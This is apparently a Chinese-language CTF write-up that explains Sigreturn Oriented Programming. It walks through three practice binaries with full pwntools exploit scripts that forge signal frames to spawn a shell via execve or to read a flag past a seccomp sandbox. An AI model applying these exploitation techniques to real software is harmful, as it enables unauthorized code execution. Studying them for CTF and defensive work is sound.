

SROP详解

* * *

# SROP详解

这篇文章有一些点一开始不怎么懂，在和blonet师傅的交流下学到了好多，感谢感谢Orz

# 前言

在打NepCTF2023的时候，pwn的第一题就是srop，但是我发现我好像没学hhh，当时比赛的时候恶补了一下，赛后整理一下写一篇文章吧。

## 什么是SROP

SROP全称为**(Sigreturn Oriented Programming)**，在ctfwiki中将其归类为了高级ROP，其中，`sigreturn`是一个系统调用，在类 unix 系统发生 signal 的时候会被间接地调用，其实就是利用了linux中的系统调用号，利用linux下的15号系统调用号调用->**rt\_sigreturn**

## signal机制

这里基础知识就搬运ctfwiki上的了，讲解的我觉得很全面了，我也会进行添加补充讲解，便于理解。

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001437-29930b10-3d19-1.png)

1.  内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2.  内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001441-2c2ad632-3d19-1.png)

这一段内存也被称为**Signal Frame**

通俗一点讲解，其实就是

```plain
①保存上下文环境（即各种寄存器），接下来走到②执行信号处理函数，处理完后③恢复相关栈环境，④继续执行用户程序。而在恢复寄存器环境时没有去校验这个栈是不是合法的，如果我们能够控制栈，就能在恢复上下文环境这个环节直接设定相关寄存器的值。
```

## 漏洞利用

通过上面对面signal机制的认识，我们可以敏锐的发现，在1~2的过程中，此时我们保存的**sigFrame**是完全在用户空间的，也就是对于进程来说可读可写，而且其实SROP利用的最根本的漏洞是因为，在1的时候内核对于进程挂起后保存下的sigFrame以及恢复环境是的sigFrame是没有关联的，所以我们可以伪造sigFrame从而利用syscall进行调用恶意进程。

总结一下就是：

**用于在内核在恢复上下文的时候并没有与保存的上下文做对比，同时内核在恢复上下文时是从构造的Signal Frame中pop出来各个寄存器的值，而此时的Signal Frame是在栈里的并且用户是可读可写的。这两点疏忽就导致了我们可以伪造Signal Frame之后主动执行sigreturn来控制每个寄存器的值。**

举个简单的例子，我们修改各个寄存器的值为

```plain
rax=59 //linux系统调用号59在64位下对应->execve()
rdi='/bin/sh\00'
rsi=0x0
rdx=0x0
```

这样其实就是就可以进行getshell，这其实也就是最简单的一个SROP

使用SROP的**前提**

*   首先程序必须存在溢出，能够控制返回地址。
    
*   可以去系统调用sigreturn（如果找不到合适的系统调用号，可以看看能不能利用read函数来控制RAX的值）
    
*   必须能够知道/bin/sh的地址，如果写的bss段，直接写地址就行，如果写到栈里，还需要想办法去泄露栈地址。
    
*   允许溢出的长度足够长，这样可以去布局我们想要的寄存器的值
    
*   需要知道syscall指令的地址
    

讲点特殊的：

我们上面所说的SROP都是只能调用一个syscall，其实我们可以一直劫持从而构造一个SROP链的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001450-31362b86-3d19-1.png)

可以看一下上图构造的栈结构，我们将rsp中的内容填入下一个片段的rt\_sigreturn的地址，而且rip的地址一直指向syscall;ret，

需要特别注意的是一定要存在ret，不然我们无法返回到下一个片段。

至此即可构造SROP链。

## 实操

### ciscn\_2019\_s\_3

#### 简单的srop

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001547-52fb1844-3d19-1.png)

**IDA分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vuln(argc, argv, envp);
}
```

调用了vuln()函数

vuln()

```plain
signed __int64 vuln()
{
  signed __int64 v0; // rax
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  v0 = sys_read(0, buf, 0x400uLL);
  return sys_write(1u, buf, 0x30uLL);
}
```

就是一个简单的栈溢出，而且还进行系统调用了execve()等函数

gadgets

```plain
__int64 gadgets()
{
  return 15LL;
}
```

sub\_4004E2()

```plain
__int64 sub_4004E2()
{
  return 59LL;
}
```

这个其实就是64位下的execve()的系统调用号

**gdb动调**

```plain
b main
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001536-4c715a2e-3d19-1.png)

这是此时的栈顶地址

```plain
0x7fffffffdfb8
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001530-495223a0-3d19-1.png)

看一下现在栈上写入'aaaaaaaa'的地址

```plain
x/8gx 0x7fffffffdea0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001523-44a4b7d2-3d19-1.png)

这里显然就是栈上的位置了，所以我们这样其实就泄露了栈地址

```plain
0x7fffffffdfb8-0x7fffffffdea0=0x118
```

我们现在已经知道了偏移量了，现在就是不知道这个地址到写入binsh的电地址的距离，可以利用vuln()中的write打印出来。

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",27757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

vuln=elf.symbols['vuln']
leak('vuln',vuln)

gadget=0x00000000004004DA
syscall_ret=0x0000000000400517

pl='a'*0x10+p64(vuln)
s(pl)

binsh=l64()-0x118
leak('binsh',binsh)

sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=binsh
sigFrame.rsi=0x0
sigFrame.rdx=0x0
sigFrame.rip=syscall_ret

pl2='/bin/sh\00'*2+p64(gadget)+p64(syscall_ret)+str(sigFrame)
s(pl2)

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001603-5cea596e-3d19-1.png)

解释一下exp:

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001606-5ed8bd88-3d19-1.png)

*   第一个框，可以结合vuln()的汇编语言，可以看到直接ret了，所以我们栈溢出之后直接到了ret\_addr，我们返回到vuln()，利用write打印出可以写入binsh的地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001613-62c787ee-3d19-1.png)

*   第二个框，我们由上面gdb动调可以得知栈上的偏移为0x118，所以写入的binsh的地址就是栈上的地址减去偏移量
    
*   第三个框，这里就是构造伪造的sigFrame了，将rax设置为系统调用号59(也就是execve)，rdi设置为我们binsh的地址，rip设为syscall\_ret的地址，然后rsi设置为0即可
    
*   第四个框，先写入0x10字节的binsh，然后利用gadgets()中的这一段gadget,从而进行调用sigFrame，从而getshell
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001620-671d7470-3d19-1.png)

### rootersctf\_2019\_srop

#### 构造srop链

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001625-6a0b35fa-3d19-1.png)

**IDA**

start()

```plain
void __noreturn start()
{
  signed __int64 v0; // rax

  sub_401000();
  v0 = sys_exit(0);
}
```

调用了一个sub\_401000(),之后系统调用exit()退出

sub\_401000()

```plain
signed __int64 sub_401000()
{
  signed __int64 v0; // rax
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  v0 = sys_write(1u, ::buf, 0x2AuLL);
  return sys_read(0, buf, 0x400uLL);
}
```

先系统调用write打印字符，之后再调用read进行读取0x400的内容，典型的栈溢出,然后在data段开辟了128大小的buf，可以用来写入数据

**gdb动调**

断点打在**sub\_401000()**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001631-6d991e30-3d19-1.png)

看一下写入栈的情况

```plain
x/8gx 0x7fffffffdf10
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001636-703764ee-3d19-1.png)

发现无法泄露栈地址

这个时候就要采取第二种思路了，构造srop链，先构造一个伪造的栈空间将binsh写入data段，之后再进行一次srop调用execve()从而getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

#p=remote("node4.buuoj.cn",26002)
p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

syscall_ret=0x0000000000401033
pop_syscall=0x0000000000401032
buf=0x0000000000402000

#fake stack
sigFrame=SigreturnFrame()
sigFrame.rax=0
sigFrame.rdi=0
sigFrame.rbp=buf+0x20
sigFrame.rsi=buf
sigFrame.rdx=0x1000
sigFrame.rip=syscall_ret

ru('?')
pl=b'a'*0x88+p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl)
gdb.attach(p)
pause()

#getshell
sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=buf
sigFrame.rsi=0
sigFrame.rdx=0
sigFrame.rip=syscall_ret

pl2=b'/bin/sh\00'
pl2=pl2.ljust(0x28,b'A')
pl2 += p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl2)
p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001643-74e8618c-3d19-1.png)

解释一下exp:

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001648-779d59be-3d19-1.png)

*   第一个框，这里就是我所说的利用sigFrame构造一个伪造的栈空间，调用read()，便于我们输入binsh，注意一下这里rdx一定要设置的空间大一点，5555，一开始没打出来就是因为空间太小了
*   第二个框，这里其实就是构造SROP链的精髓，要再调用rt\_sigreturn，从而构造我们的SROP链
*   第三个框，这里其实就是常规操作，调用execve()，注意这里binsh地址要写入buf的地址，buf是在data段的，我们可以写入数据
*   第四个框，这里先写入binsh，之后再将fake\_stack进行溢出，将ret\_addr写为我们的pop\_syscall的rop地址，然后就可以getshell

### V&N2020 babybabypwn

#### orw+srop

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001653-7aceaf02-3d19-1.png)

64位程序，保护全开

**seccomp-tools**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001703-806335e6-3d19-1.png)

存在沙箱，但是没有现成的orw，存在mmap

**IDA分析**

main()

```plain
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  sub_11B5(a1, a2, a3);
  sub_1202();
  sub_1347();
  return 0LL;
}
```

sub\_11B5()

```plain
unsigned int sub_11B5()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  return alarm(0x3Cu);
}
```

禁用标准输入、标准输出和标准错误流的缓冲，然后设置一个定时器警报并返回定时器的初始值

sub\_1202()

```plain
__int64 sub_1202()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0x7FFF0000LL);
  seccomp_rule_add(v1, 0LL, 41LL, 0LL);
  seccomp_rule_add(v1, 0LL, 42LL, 0LL);
  seccomp_rule_add(v1, 0LL, 49LL, 0LL);
  seccomp_rule_add(v1, 0LL, 50LL, 0LL);
  seccomp_rule_add(v1, 0LL, 56LL, 0LL);
  seccomp_rule_add(v1, 0LL, 59LL, 0LL);
  seccomp_rule_add(v1, 0LL, 10LL, 0LL);
  seccomp_rule_add(v1, 0LL, 9LL, 0LL);
  seccomp_rule_add(v1, 0LL, 57LL, 0LL);
  return seccomp_load(v1);
}
```

这里就是开启了沙箱保护，和我们seccomp-tools分析的其实一样

sub\_1347()

```plain
unsigned __int64 sub_1347()
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v2; // [rsp+108h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Welcome to v&n challange!");
  printf("Here is my gift: 0x%llx\n", &puts);
  printf("Please input magic message: ");
  read(0, buf, 0x100uLL);
  syscall(15LL);
  return __readfsqword(0x28u) ^ v2;
}
```

这里是程序最关键的函数部分，先开启了一个canary检测，这里已经给出了puts()在栈上的地址了，我们可以进行leak libc基地址，从而获得orw，不存在溢出。

思路：

*   由上面得知，我们可以进行泄露libc基地址，所以我们可以获得orw
*   我们没法进行溢出，但是可以利用伪造的sigFrame构造一个fake\_stack，之后再进行栈溢出
*   进行orw

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()


ru('gift: ')
puts=int(r(14),16)
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)

open_addr=libcbase+libc.symbols['open']
leak('open_addr',open_addr)

read_addr=libcbase+libc.symbols['read']
leak('read_addr',read_addr)

write_addr=libcbase+libc.symbols['write']
leak('write_addr',write_addr)

bss=libcbase+libc.bss()
leak('bss',bss)

rdi_ret=libcbase+0x0000000000021112
leak('rdi_ret',rdi_ret)
rsi_ret=libcbase+0x00000000000202f8
leak('rsi_ret',rsi_ret)
rdx_ret=libcbase+0x0000000000001b92
leak('rdx_ret',rdx_ret)

buf_addr=bss+0x400

sigFrame=SigreturnFrame()
sigFrame.rdi=0
sigFrame.rip=read_addr
sigFrame.rsi=buf_addr
sigFrame.rdx=0x200
sigFrame.rsp=buf_addr
pl=str(sigFrame)[8:]


p.sendlineafter('Please input magic message: ',pl)
gdb.attach(p)
pause()

flag=buf_addr+0x98


pl1=p64(rdi_ret)+p64(flag)+p64(rsi_ret)+p64(0)+p64(open_addr) #open
pl1+=p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(read_addr) #read
pl1+=p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(write_addr) #write
pl1+='flag\00'

s(pl1)

p.interactive()
```

解释一下exp：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001715-8765ecd0-3d19-1.png)

*   第一个框，这里是利用libc的bss段写入我们的数据，经过ROPgadget查找，发现原二进制文件可利用的gadget比较少，于是利用libc中的gadget构造rop
    
*   第二个框，这里和之前的不一样，IDA分析可以得知，这里不是系统调用的syscall()，而是利用的syscall()函数，所以直接调用read()即可，将rip和rsp设置为bss段上的某段用来写入rop的buf\_addr,
    
    这里尤其说明一下为什么从第8个字节开始才是我们需要的sigFrame，这里需要对于**call**这个汇编指令的理解
    
    ```plain
    call其实就是进入一个函数，执行完这个函数之后当返回下一个执行call的指令时，要先把call下面的一条指令压入栈中
    ```
    
    通俗一点讲就是：**在执行call之前，程序会将call的下一条指令压入栈，当执行到ret的时候，就又恢复到了原来的栈布局。**
    
    所以我们从第8个字节开始接收sigFrame就是这个原因(如下图IDA分析可见，这里是call syscall这个函数的，而不是进行系统调用)
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20230818001720-8ab582a6-3d19-1.png)

*   第三个框，我们这里是写入flag的地址
*   第四个框，我们这里是构造orw，不要忘记最后还要写入我们的flag字符

# 参考

[SROP - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)
